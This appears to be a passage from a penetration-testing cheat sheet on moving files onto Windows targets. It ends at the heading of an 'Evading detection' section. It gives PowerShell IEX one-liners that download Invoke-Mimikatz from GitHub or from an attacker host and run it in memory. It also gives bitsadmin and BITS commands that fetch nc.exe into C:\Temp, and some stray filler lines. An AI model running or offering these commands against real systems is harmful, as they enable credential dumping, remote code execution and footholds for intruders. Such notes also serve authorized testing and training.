 {% tab title="In memory" %}
### In memory

Also, instead of downloading it to disk, we can run the payload in memory with IEX:

{% hint style="warning" %}
It is recommended to use single quotes. For some strange reason, double quotes sometimes do not work.
{% endhint %}

```powershell
# With output to the Internet (in real environments):
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
# No Internet access:
IEX(New-Object Net.WebClient).DownloadString('http://<IP>:<PORT>/<FILE>')
IEX(New-Object System.Net.WebClient).DownloadString('http://<IP>:<PORT>/<FILE>')
IEX (IWR "http://<IP>:<PORT>/<FILE>") # Test
# Piping the output of Invoke-WebRequest:
Invoke-WebRequest https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1 | iex
```

{% hint style="danger" %}
If you get the following error: **The response content cannot be parsed because the Internet Explorer engine is not available**.... what we can do is to add a parameter to the IWR: `IWR -Uri "<URL>" -UseBasicParsing`
{% endhint %}


{% endtab %}

{% tab title="BITS" %}
```powershell
# MS-DOS and PowerShell:
bitsadmin /transfer n http://<IP>/nc.exe C:\Temp\nc.exe
# PowerShell:
Import-Module bitstransfer;Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"
```



a

a

a

a

a
{% endtab %}

{% tab title="Evading detection" %}
### Base64 method

We can transfer a file by encoding it in base64 and decoding it on the receiving computer:
